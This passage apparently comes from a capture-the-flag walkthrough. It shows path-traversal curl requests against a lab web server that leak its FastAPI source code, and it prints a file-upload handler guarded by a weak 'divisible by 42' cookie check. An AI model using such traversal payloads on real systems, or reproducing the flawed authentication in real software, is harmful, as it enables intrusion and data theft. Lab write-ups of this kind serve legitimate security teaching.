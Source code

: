 The file loads the app:

```

oxdf@parrot$ curl http://10.10.11.123/file_management/?file=../server.py 
import uvicorn

if __name__ == "__main__":
    uvicorn.run("app.main:app", host="0.0.0.0", port=8000, reload=True)

```

`app.main:app` says it is going into a directory named `app`, loading `main.py`, and then calling the `app` function.

I can leak the full source:

```

oxdf@parrot$ curl http://10.10.11.123/file_management/?file=../app/main.py                           
from typing import Optional
from fastapi import File, UploadFile, Request 
from fastapi import FastAPI    
from fastapi.encoders import jsonable_encoder
from fastapi.responses import FileResponse, JSONResponse, PlainTextResponse
from random import randrange                        
import os, subprocess
import json
import uvicorn               
import app.database           
from urllib.parse import parse_qs
import app.models                 

from .database import SessionLocal, engine
from . import models, crud
                                                                    
app = FastAPI(docs_url=None, redoc_url=None, openapi_url=None)
models.Base.metadata.create_all(bind=engine)

@app.get("/")            
def get_root(request: Request, hostname = "") -> dict:
...[snip]...

```

This gives an alternative way to look at the upload path:

```

@app.put("/file_upload/")                 
async def file_upload(request: Request, file: UploadFile = File(...)):                                                                  
    auth = request.headers.get("Cookie")[5:]                        
    # We are divisible by 42                                  
    if int(auth, 16) % 42 != 0:             
        return JSONResponse(status_code=500, content={'message': 'Internal Server Error'})                                              
    try:                                                            
        os.mkdir("files")
        print(os.getcwd())                            
    except Exception as e:
        print(e)                                                                                                                        
    file_name = os.getcwd() + "/files/" + file.filename.replace(" ", "-")                                                               
    try:                           
```
